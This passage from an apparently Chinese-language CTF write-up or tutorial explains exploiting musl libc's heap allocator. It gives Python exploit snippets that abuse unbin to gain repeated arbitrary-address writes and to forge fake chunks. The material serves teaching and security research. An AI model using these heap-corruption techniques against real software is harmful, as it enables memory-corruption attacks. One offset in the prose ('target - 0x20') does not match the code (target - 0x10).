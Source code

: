 再次分配 0x20 字节 chunk，malloc 对 chunk 3 进行 unbin，将 fake chunk 地址写到`mal.bins[38]->head`指针上。

```python
add(0x50) # 5, fake chunk
```

最后分配一个 0x60 字节的 chunk，malloc 从`mal.bins[38]`取出 fake chunk，返回 fake chunk 地址。

```python
edit(3, p64(next) + p64(prev2))
add(0x10) # 3, unbin #2
add(0x50) # 5, fake_chunk #2

edit(3, p64(next) + p64(prev3))
add(0x10) # 3, unbin #3
add(0x50) # 6, fake_chunk #3

edit(3, p64(next) + p64(prev4))
add(0x10) # 3, unbin #4
add(0x50) # 7, fake_chunk #4

edit(3, p64(next) + p64(prev5))
add(0x10) # 3, unbin #5
add(0x50) # 8, fake_chunk #5

[......]
```
由于`mal.bins[0]`链表已被破坏，`mal.bins[0]->head`指针不再更新，继续指向 chunk 3。通过不断修改 chunk 3 的`prev`指针，我们可以实现多次任意地址写。

#### 4.2.2 构造 fake chunk

由于 malloc 不检查 chunk 的头部，只要 fake chunk 的`prev`和`next`指针指向合法地址，就能通过 unbin 从 bin 链表中取出，即`*(uint64_t*)(fake_chunk + 2)`和`*(uint64_t*)(fake_chunk + 3)`的值是一个可写的内存块地址。

除了利用现有的 fake chunk，我们还可以利用 unbin 在任意内存块上构造 fake chunk：

```python
fake_chunk = target - 0x10

edit(3, p64(fake_chunk) + p64(fake_chunk))
add(0x10) # 3, unbin
```

假设待控制的内存块地址为`target`。将 chunk 3 的`prev`和`next`指针同时设为`target - 0x20`，然后 unbin。

![](https://p4.ssl.qhimg.com/t01cadec260e8b24a98.png)

unbin 之前。

![](https://p0.ssl.qhimg.com/t01493e7225dedb3e7c.png)

经过 unbin 之后，fake chunk 的`prev`和`next`指针被 unbin 改写为 fake chunk 地址，恰好满足构造条件。


```python
free(n) # chunk n 的大小为 0x20
```
